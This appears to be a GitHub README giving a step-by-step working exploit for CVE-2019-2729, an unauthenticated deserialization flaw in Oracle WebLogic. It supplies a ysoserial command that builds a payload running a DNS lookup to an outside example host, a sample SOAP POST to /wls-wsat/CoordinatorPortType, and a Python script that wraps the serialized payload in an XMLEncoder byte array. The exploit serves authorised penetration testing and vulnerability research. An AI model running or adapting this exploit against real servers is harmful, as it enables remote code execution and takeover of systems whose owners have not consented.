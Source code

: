 
# Exploiting CVE-2019-2729 WebLogic Deserialization Vulnerability

## Introduction

CVE-2019-2729 is a Java deserialization vulnerability in Oracle WebLogic
versions 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0.  Serialized Java objects are
accepted anonymously via an HTTP service and deserialized.  Remote code
execution is possible without authentication.

This exploit was tested against WebLogic 10.3.6.0.

A typical vulnerable server will have HTTP services listening on one or more
TCP ports which have a web application at `/wls-wsat/`.

## Generate a payload with ysoserial

First, get ysoserial (https://github.com/frohoff/ysoserial) and use it to
generate a simple RCE payload.

```
java -jar ysoserial-0.0.5-all.jar Jdk7u21 "nslookup test222.ourns.example.com" > payload
```

Here, we generate a payload using ysoserial which will do a DNS lookup that
we'll be able to monitor.  The `payload` file contains a serialized Java
`LinkedHashSet` object which will run this command.

Note that the ysoserial payload generator used here, named Jdk7u21, only
works under JRE version 7u21 and earlier (see
https://gist.github.com/frohoff/24af7913611f8406eaf3), however that seems to
be standard with WebLogic 10.3.6.0.  You might have to use a different
payload for newer versions of WebLogic. The advantage to Jdk7u21 is the lack
of any dependencies in the server's classpath.

## Transform the payload into SOAP

Next, we need to massage this blob into a SOAP HTTP request body.  The
affected web services accept SOAP requests containing Java objects encoded
in Java's `XMLEncoder` format.  An example request showing the format:

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 10.0.3.8:8200
SOAPAction:
Content-Type: text/xml
Content-Length: 204219

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
 <soapenv:Header>
  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
   <java>
    <array method="forName">
     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>
     <void>
      <array class="byte" length="3">
       <void index="0">
        <byte>1</byte>
       </void>
       <void index="1">
        <byte>2</byte>
       </void>
       <void index="2">
        <byte>3</byte>
       </void>
      </array>
     </void>
    </array>  
   </java>
  </work:WorkContext>   
 </soapenv:Header>
 <soapenv:Body/>
</soapenv:Envelope>
```

The payload generated above needs to be stuffed into a `byte[]` array by the
server. The following python script will generate the required request body
and write it to a file named `payload_encoded`.

```
of = open('payload_encoded','w')
payload = open('payload').read()

of.write('<?xml version="1.0" encoding="utf-8"?>\n')
of.write('<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">\n')
of.write(' <soapenv:Header>\n')
of.write('  <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">\n')
of.write('   <java>\n')
of.write('    <array method="forName">\n')
of.write('     <string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string>\n')
of.write('     <void>\n')
of.write('      <array class="byte" length="%d">\n' % len(payload) )

for i in range(len(payload)):
    byte = payload[i]
    v = ord(byte)
    if v >= 128:
        v = -256+v
    of.write('       <void index="%d">\n' % i)
    of.write('        <byte>%d</byte>\n' % v)
    of.write('       </void>\n')

of.write('      </array>\n')
of.write('     </void>\n')
of.write('    </array>\n')
of.write('   </java>\n')
of.write('  </work:WorkContext>\n')
of.write(' </soapenv:Header>\n')
of.write(' <soapenv:Body/>\n')
of.write('</soapenv:Envelope>\n')
```

## Transmit the Payload

Next, send the generated request body to the affected service via a `POST`
request to `/wls-wsat/CoordinatorPortType`. The entire resulting HTTP
request should look just like the example above but much longer.

The server will return a 500 response, however you should see your DNS
lookup and therefore now have remote command execution.

